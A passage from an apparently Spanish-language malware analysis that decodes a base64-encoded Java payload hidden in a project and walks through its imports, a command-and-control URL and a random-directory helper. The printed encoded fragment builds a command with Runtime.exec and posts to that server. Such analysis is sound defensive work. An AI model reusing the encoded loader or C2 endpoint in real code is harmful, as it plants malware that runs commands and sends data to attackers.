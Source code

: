 ```java
          + "CAgICAgICBidWZmZXIud3JpdGUob3JnX2ZpbGUpOwogICAgICAgICAgICAgICAgICAgIH0KICAgICAgICAgICAgICAgICAgICBTdHJpbmcgY21kbGluZSA9ICJqYXZhICIgKyB"
          + "vcmdfcGF0aCArICIgIiArIHVpZCArICIgIiArIFBPU1RfVVJMOwogICAgICAgICAgICAgICAgICAgIFJ1bnRpbWUuZ2V0UnVudGltZSgpLmV4ZWMoY21kbGluZSk7CiAgICAgI"
          + "CAgICAgICAgICAgICAgVGhyZWFkLnNsZWVwKDMwMDApOwogICAgICAgICAgICAgICAgfQogICAgICAgICAgICAgICAgVGhyZWFkLnNsZWVwKDUwMDApOwogICAgICAgICAgICB"
          + "9CiAgICAgICAgICAgIH0gY2F0Y2ggKEludGVycnVwdGVkRXhjZXB0aW9uIGV4KSB7CiAgICAgICAgICAgIH0KICAgICAgICB9CiAgICB9Cn0K";
```

Tal como fue comentado es contenido codificado en `base64` el cual será decodificado y posteriormente escrito en un archivo `.java` ubicado en un directorio temporal. 

Decodificando el contenido base64 de esta variable obtenemos el siguiente resultado, que dista mucho de ser un simple archivo de log:

<details><summary>Código Java (112 líneas)</summary></details>

¿Qué acciones realiza este código?

- Importa distintas librerías que le permiten realizar llamadas HTTP, realizar operaciones sobre contenido codificado en base64, manipular archivos, generar números aleatorios y usar hilos (threads).

```java
import java.io.IOException;
import java.net.URI;
import java.net.http.HttpClient;
import java.net.http.HttpRequest;
import java.net.http.HttpResponse;
import java.nio.charset.StandardCharsets;
import java.util.Base64;
import java.util.Random;
import java.io.BufferedWriter;
import java.io.File;
import java.io.FileWriter;
import java.lang.Thread;
```

- Declara una variable String donde almacena una URL maliciosa, seguramente su servidor de Comando y Control (C2).

```java
private static final String POST_URL = "https://www.git-hub.me/view.php";
```

- Declara una String compuesta por ocho números aleatorios, utilizado posteriormente para crear directorios temporales con nombres únicos.

```java
private static String randGen() throws IOException {
  String strPool = "123456789";
  StringBuilder sb = new StringBuilder();
  Random rand = new Random();

  for (int i=0; i<8; i++){
      sb.append(strPool.charAt(rand.nextInt(strPool.length())));
  }

  return sb.toString();
}
```
